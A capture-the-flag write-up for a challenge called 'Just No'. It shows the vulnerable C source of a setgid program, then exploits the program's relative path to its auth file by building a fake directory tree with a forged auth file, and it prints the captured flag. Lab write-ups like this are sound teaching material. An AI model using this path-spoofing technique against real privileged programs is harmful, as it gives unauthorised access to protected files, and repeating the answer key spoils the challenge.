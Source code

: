 [](
  This markdown file is writeup template.
)
## Just No 40pt

### Problem
> A program at /problems/579fe8ee083cd54f55718c1324687c74 has access to a flag but refuses to share it. Can you convince it otherwise?

### Answer
Let's get the flag.

```bash
$ ll /problems/579fe8ee083cd54f55718c1324687c74
total 64
drwxr-xr-x   2 root       root       4096 Mar 22 02:59 ./
drwxr-x--x 573 root       root      36864 Apr  1 23:13 ../
-rw-r--r--   1 hacksports just-no_0     2 Mar 31 08:00 auth
-r--r-----   1 hacksports just-no_0    33 Mar 31 08:00 flag
-rwxr-sr-x   1 hacksports just-no_0  7800 Mar 31 08:00 justno*
-rw-r--r--   1 hacksports just-no_0   838 Mar 31 08:00 justno.c
$ /problems/579fe8ee083cd54f55718c1324687c74/justno
auth file says no. So no. Just... no.
```
Damn it :( Check the source code (`justno.c`).

```c:justno.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){ 
  FILE* authf = fopen("../../problems/579fe8ee083cd54f55718c1324687c74/auth","r"); 
  //access auth file in ../../../problems/579fe8ee083cd54f55718c1324687c74
  if(authf == NULL){
    printf("could not find auth file in ../../problems/579fe8ee083cd54f55718c1324687c74/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if(strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/579fe8ee083cd54f55718c1324687c74/flag","r");
    char flag[64];
    fgets(flag,64,flagf);
    printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
    fclose(flagf);
  }else{
    printf("auth file says no. So no. Just... no.\n");
  }
  return 0;
}
```

Aha! Accessing auth file is Relative paths. So spoof a directory structure and make a fake auth file!!!

```bash
$ mkdir -p ~/problems/579fe8ee083cd54f55718c1324687c74
$ cd problems/579fe8ee083cd54f55718c1324687c74
$ echo "yes" > auth
$ /problems/579fe8ee083cd54f55718c1324687c74/justno 
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 37df41ffe2da397584c43eabf8a50ee3
```

### Flag
37df41ffe2da397584c43eabf8a50ee3
